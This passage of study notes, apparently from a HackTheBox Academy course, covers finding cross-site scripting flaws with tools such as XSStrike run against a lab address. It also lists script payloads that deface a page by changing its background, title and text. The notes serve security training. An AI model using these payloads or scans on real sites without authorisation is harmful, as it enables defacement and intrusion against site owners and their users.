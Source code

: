 * XSS Discovery:

  * While web app vulnerability scanners like Nessus, Burp Suite Pro or ZAP have capabilities for detecting XSS vulnerabilities, we can use tools like [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser) as well.

    ```shell
    # setup XSS Strike
    git clone https://github.com/s0md3v/XSStrike.git
    cd XSStrike
    pip install -r requirements.txt
    python xsstrike.py

    python xsstrike.py -u "http://83.136.251.235:35702/?fullname=sv&username=sv&password=password&email=email%40email.com"
    # the tool will check for all params
    ```

  * For manual discovery, a combination of manual code review and trying subset of XSS payloads (based on point of injection) can be used.

## XSS Attacks

* Defacing:

  * We can modify HTML elements like background (```document.body.style.background```, ```document.body.background```), page title (```document.title```), and page text (```DOM.innerhtml```); works best with stored XSS as it is persistent.

  * Change background - ```<script>document.body.style.background = "#141d2b"</script>```

  * Change background image - ```<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>```

  * Change page title - ```<script>document.title = 'HackTheBox Academy'</script>```

  * Multiple ways to change text -

    * Using ```innerhtml``` - ```document.getElementById("todo").innerHTML = "New Text"```

    * Using ```jQuery``` functions - ```$("#todo").html('New Text');```

    * Change main body - ```document.getElementsByTagName('body')[0].innerHTML = "New Text"```
  
  * We can combine all of these into HTML code, which can be later minified (into single line) and add to XSS payload:

    ```html
    <center>
        <h1 style="color: white">Cyber Security Training</h1>
        <p style="color: white">by 
            <img src="https://academy.hackthebox.com/images/logo-htb.svg" height="25px" alt="HTB Academy">
        </p>
    </center>
    ```
